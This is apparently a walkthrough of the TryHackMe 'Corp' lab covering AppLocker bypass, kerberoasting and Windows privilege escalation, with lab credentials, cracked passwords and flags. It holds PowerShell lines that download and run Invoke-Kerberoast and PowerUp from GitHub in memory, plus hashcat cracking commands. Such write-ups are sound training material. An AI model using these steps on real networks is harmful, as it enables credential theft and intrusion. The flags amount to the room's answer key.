


# Try Hack Me - [Corp](https://tryhackme.com/room/corp)
##### Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

## Task 1 - Deploy the Windows machine 

In this room you will learn the following:
* Windows Forensics
* Basics of kerberoasting
* AV Evading
* Applocker

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.
```
Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

Username: corp\dark
Password: _QuejVudId6
> No answer needed
```

## Task 2 - Bypassing Applocker 



AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.
```
There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default. 

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.
> No answer needed
```

```
Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

Access the file and and obtain the flag.
> flag{a12a41b5f8111327690f836e9b302f0b}
```

## Task 3 - Kerberoasting 


It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.


Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
```
Lets first enumerate Windows. If we run setspn -T medin -Q ​ */* we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?
> fela
```

```
Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first get the Powershell Invoke-Kerberoast script.iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 

Now lets load this into memory: Invoke-Kerberoast -OutputFormat hashcat ​ |fl

You should get a SPN ticket.
> No answer needed
```


```
Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

hashcat -m 13100 -​a 0 hash.txt wordlist --force

Crack the hash. What is the users password in plain text?
> rubenF124
```

```
Login as this user. What is his flag?
> flag{bde1642535aa396d2439d86fe54a36e4}
```

## Task 4 - Privilege Escalation 

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.
```
We will run PowerUp.ps1 for the enumeration.

Lets load PowerUp1.ps1 into memory.

iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way."

Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

What is the decoded password?
> tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;​ $T 
```


```
Now we have the Administrator's password, login as them and obtain the last flag.
> THM{g00d_j0b_SYS4DM1n_M4s73R}
```

## Additional Resources

[Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

[HOWTO: Unattended Setup Parameters for Unattend.txt File](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461)